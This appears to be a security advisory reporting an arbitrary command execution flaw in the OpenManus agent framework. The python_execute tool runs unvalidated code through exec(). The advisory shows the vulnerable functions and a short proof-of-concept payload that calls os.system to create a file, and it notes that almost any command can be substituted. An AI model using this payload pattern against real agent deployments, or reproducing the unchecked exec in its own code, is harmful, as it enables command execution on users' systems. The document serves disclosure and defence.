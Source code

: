 # Arbitrary Command Execution in OpenManus(GitHub)
## Basic information
Author: Chuanhao Wan(wanchuanhao@hust.edu.cn)

Vulnerable library: OpenManus

Library url: https://github.com/mannaandpoem/OpenManus

Language: Python

Affected version: <=0.3.0

Vulnerable module: app/tool/python_execute.py

The vulnerable functions(line 25-37, 39-75) in the vulnerable module is:
```python
def _run_code(self, code: str, result_dict: dict, safe_globals: dict) -> None:
    original_stdout = sys.stdout
    try:
        output_buffer = StringIO()
        sys.stdout = output_buffer
        exec(code, safe_globals, safe_globals)
        result_dict["observation"] = output_buffer.getvalue()
        result_dict["success"] = True
    except Exception as e:
        result_dict["observation"] = str(e)
        result_dict["success"] = False
    finally:
        sys.stdout = original_stdout
```
```python
async def execute(
    self,
    code: str,
    timeout: int = 5,
) -> Dict:
    """
    Executes the provided Python code with a timeout.

    Args:
        code (str): The Python code to execute.
        timeout (int): Execution timeout in seconds.

    Returns:
        Dict: Contains 'output' with execution output or error message and 'success' status.
    """

    with multiprocessing.Manager() as manager:
        result = manager.dict({"observation": "", "success": False})
        if isinstance(__builtins__, dict):
            safe_globals = {"__builtins__": __builtins__}
        else:
            safe_globals = {"__builtins__": __builtins__.__dict__.copy()}
        proc = multiprocessing.Process(
            target=self._run_code, args=(code, result, safe_globals)
        )
        proc.start()
        proc.join(timeout)

        # timeout process
        if proc.is_alive():
            proc.terminate()
            proc.join(1)
            return {
                "observation": f"Execution timeout after {timeout} seconds",
                "success": False,
            }
        return dict(result)
```
Arbitrary Command Execution vulnerability can be triggered in ```execute``` and ```_run_code``` functions, because the argument  ```code``` is not checked and validated before being executed.

## Exploit
Environment prepare: Linux, python version 3.12. Install required libraries:
```python
pip3 install git+ https://github.com/mannaandpoem/OpenManus.git@v0.3.0
pip3 install boto3
pip3 install baidusearch
pip3 install duckduckgo-search
pip3 install docker
```

The PoC code:
```python
from app.tool.python_execute import PythonExecute
import asyncio

pe = PythonExecute()

payload = "import os; os.system('touch hack.txt')"
asyncio.run(pe.execute(code=payload))
```
Run this PoC, the ```payload``` will be executed and create a ```hack.txt``` file in work folder.
Almost all commands can be encapsulated within the payload for execution.
